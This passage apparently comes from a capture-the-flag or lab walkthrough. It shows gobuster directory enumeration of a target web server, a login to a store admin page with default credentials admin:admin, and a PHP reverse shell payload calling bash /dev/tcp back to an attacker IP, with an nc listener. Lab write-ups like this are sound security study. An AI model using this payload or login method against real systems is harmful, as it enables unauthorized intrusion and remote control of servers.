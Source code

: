 [+] Threads:                 10

[+] Wordlist:                /usr/share/wordlists/dirb/common.txt

[+] Negative Status codes:   404

[+] User Agent:              gobuster/3.5

[+] Timeout:                 10s

===============================================================

2023/06/11 21:44:45 Starting gobuster in directory enumeration mode

===============================================================

/.htpasswd            (Status: 403) [Size: 280]

/.hta                 (Status: 403) [Size: 280]

/admin                (Status: 301) [Size: 318] [--> http://192.168.169.111/admin/]

/.htaccess            (Status: 403) [Size: 280]

/index.html           (Status: 200) [Size: 10918]

/index.php            (Status: 200) [Size: 3468]

/robots.txt           (Status: 200) [Size: 14]

/secret               (Status: 301) [Size: 319] [--> http://192.168.169.111/secret/]

/server-status        (Status: 403) [Size: 280]

/store                (Status: 301) [Size: 318] [--> http://192.168.169.111/store/]

Progress: 4587 / 4615 (99.39%)

===============================================================

2023/06/11 21:45:22 Finished

went to /store and saw the admin login at the bottom.

  

Used default creds admin:admin and I got in

  

There is a new book editor where I can add new books.

[https://i.imgur.com/wlc1q17.png](https://i.imgur.com/wlc1q17.png)

Attempt to upload a reverse shell in php format since the admin_add page is in php format 

  

my rev shell in php

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.201/4444 0>&1'"); ?>

and to run a nc listener 

nc -nlvp 4444

  
